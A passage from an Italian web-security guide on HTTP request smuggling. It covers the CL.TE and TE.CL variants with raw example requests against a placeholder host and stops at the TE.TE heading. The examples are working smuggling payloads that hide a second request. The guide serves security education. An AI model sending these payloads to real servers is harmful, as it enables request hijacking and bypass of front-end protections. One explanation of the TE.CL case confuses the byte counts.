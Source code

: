 - L'attaccante invia una richiesta in cui il valore dell'intestazione `Content-Length` non corrisponde alla lunghezza effettiva del contenuto.
- Il server front-end inoltra l'intera richiesta al back-end, basandosi sul valore di `Content-Length`.
- Il server back-end elabora la richiesta come chunked a causa dell'intestazione `Transfer-Encoding: chunked`, interpretando i dati rimanenti come una richiesta separata e successiva.
- **Esempio:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 30
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Foo: x
```

#### Vulnerabilità TE.CL (Transfer-Encoding utilizzato dal Front-End, Content-Length utilizzato dal Back-End)

- **Front-End (TE):** Elabora la richiesta in base all'intestazione `Transfer-Encoding`.
- **Back-End (CL):** Elabora la richiesta in base all'intestazione `Content-Length`.
- **Scenario di Attacco:**

- L'attaccante invia una richiesta chunked in cui la dimensione del chunk (`7b`) e la lunghezza effettiva del contenuto (`Content-Length: 4`) non si allineano.
- Il server front-end, rispettando `Transfer-Encoding`, inoltra l'intera richiesta al back-end.
- Il server back-end, rispettando `Content-Length`, elabora solo la parte iniziale della richiesta (`7b` byte), lasciando il resto come parte di una richiesta successiva non intenzionata.
- **Esempio:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Connection: keep-alive
Transfer-Encoding: chunked

7b
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

x=
0

```

#### Vulnerabilità TE.TE (Transfer-Encoding utilizzato da entrambi, con offuscamento)
